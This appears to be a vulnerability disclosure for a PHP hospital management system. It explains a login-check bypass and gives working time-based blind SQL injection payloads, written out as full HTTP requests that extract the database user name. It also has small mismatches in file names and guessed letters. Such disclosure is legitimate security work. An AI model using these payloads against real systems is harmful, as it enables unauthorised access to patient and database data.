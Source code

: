 If the user enters the wrong username and password, line 26 assigns the username submitted by the user to $_SESSION['login'].

So as long as you first visit /hms/user-login.php and try to log in to an account, $_SESSION['login'] will not  be empty, you can bypass the check of the check_login function and achieve privilege elevation.

Back inappointment-history.php,line 18 gets the POST variables Doctorspecialization, doctor, feet, appdate, and apptime values directly into the database query resulting in SQL injection.

The following SQL injection statement can be used to get the first letter of the current database user(root) as 'r':
```
POST /hms/book-appointment.php HTTP/1.1
Host: 127.0.0.1:8009
Connection: keep-alive
Content-Length: 159
Pragma: no-cache
Cache-Control: no-cache
Origin: http://127.0.0.1:8009
Upgrade-Insecure-Requests: 1
DNT: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.100 Safari/537.36
Sec-Fetch-Dest: document
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Referer: http://127.0.0.1:8009/hms/book-appointment.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: PHPSESSID=vn7s77l28he51c598cvhbl5un2

Doctorspecialization=1',if(substring((select user() limit 0,1),1,1)='r',sleep(5),1),3,4,5,6,7,8)#&doctor=2&appdate=2020-02-13&apptime=10%3A30+AM&submit=&fees=2
```
The first letter of the current database user(root) obtained through SQL injection is ‘r’, and the query result is correct, so the request is delayed about 5 seconds:

![24.png](./img/24.png)

If you query the following statement:
```
Doctorspecialization=1',if(substring((select user() limit 0,1),1,1)='a',sleep(5),1),3,4,5,6,7,8)#&doctor=2&appdate=2020-02-13&apptime=10%3A30+AM&submit=&fees=2
```
Through SQL injection to guess the first letter of the current database user(root) is 'b', the query result is wrong, so the request will not be delayed for 5 seconds:
